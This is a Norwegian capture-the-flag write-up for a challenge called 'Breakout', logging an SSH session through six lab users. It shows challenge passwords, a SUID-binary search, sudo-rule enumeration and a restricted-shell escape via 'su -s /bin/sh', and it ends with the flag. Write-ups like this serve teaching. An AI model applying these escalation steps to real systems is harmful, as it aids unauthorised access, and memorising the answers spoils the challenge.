

# Breakout

Koble til med SSH:

```sh
ssh user1@breakout
```

og bruk passord: `EssensieltFantom`

## Tips

For å bytte bruker inne på maskinen brukes `su - brukernavn`

For hver bruker leter du etter en `.txt` fil med samme navn. Denne inneholder `brukernavn:passord` for neste bruker.

I enden venter det et flagg.

----------------------------------------

## User1
```sh
breakout:~$ ls -la
total 4
dr-x------    1 user1    user1           23 Dec 23 08:09 .
drwxr-xr-x    1 root     root           102 Dec 16 21:14 ..
-rw----r--    1 root     root            27 Dec 23 08:09 user1.txt
breakout:~$ cat user1.txt
user2:eN4UR19LJGJRQdELYMAb
```

## User2
```sh
breakout:~$ ls -la
total 4
dr-x------    1 user2    user2           24 Dec 23 08:10 .
drwxr-xr-x    1 root     root           102 Dec 16 21:14 ..
-rw----r--    1 root     root            27 Dec 23 08:10 .user2.txt
breakout:~$ cat .user2.txt
user3:wn90aprk2rfJygqyTPdp
```

## User3
```sh
breakout:~$ ls -la
total 4
dr-x------    1 user3    user3           32 Dec 23 08:10 .
drwxr-xr-x    1 root     root           102 Dec 16 21:14 ..
-rw----r--    1 root     root           184 Dec 16 21:14 note.txt
dr-x-----x    1 root     root            38 Dec 16 21:14 secret_information

breakout:~$ cat note.txt
At long last I found the secret information
It has always been my greatest goal
But at the end of it all I was told
The rumoured super_secret_information
Still remains elusive as ever

breakout:~$ ls -la secret_information/
ls: can't open 'secret_information/': Permission denied
total 0
breakout:~$ cd secret_information/super_secret_information
breakout:~/secret_information/super_secret_information$ ls -la
total 64
dr-x---r-x    1 root     root            23 Dec 23 08:10 .
dr-x-----x    1 root     root            38 Dec 16 21:14 ..
-r-x---r-x    1 root     root         61126 Dec 12 20:42 transaction.png
-rw----r--    1 root     root            27 Dec 23 08:10 user3.txt
breakout:~/secret_information/super_secret_information$ cat user3.txt
user4:h212BaWpK6Va71liSOf3
```



## User4
```sh
breakout:~$ ls -la
total 4
dr-x--x---    1 user4    nisser          23 Dec 23 08:10 .
drwxr-xr-x    1 root     root           102 Dec 16 21:14 ..
-rw-r-----    1 root     nisser          27 Dec 23 08:10 user4.txt
breakout:~$ id
uid=1005(user4) gid=1005(user4) groups=1005(user4)
breakout:~$ find / -perm -4000 2>/dev/null
/bin/busybox
/bin/mount
/bin/umount
/usr/bin/passwd
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/expiry
/usr/bin/gpasswd
/usr/bin/sudo
breakout:~$ sudo -l
User user4 may run the following commands on breakout:
    (julenissen) NOPASSWD: /bin/cat
breakout:~$ sudo -u julenissen /bin/cat user4.txt
user5:qihwB4q0kKSIsAa4XMyn
```

## User5 og User6(Flagg)
```sh
user5@breakout:~$ ls -la
-bash: ls: command not found
user5@breakout:~$ cat
.bash_profile  .bashrc        .inputrc       bin/           user5.txt
user5@breakout:~$ cat user5.txt
-bash: cat: command not found
user5@breakout:~$ su - user5 -s /bin/sh
Password:
breakout:~$ cat user5.txt
user6:8XVENZxLkkYnhMwZZaQ7

user5@breakout:~$ su - user6 -c 'cat flag.txt'
Password:
07d387f61b5d7df303a7e652f868cffb
```

Flagget er 07d387f61b5d7df303a7e652f868cffb.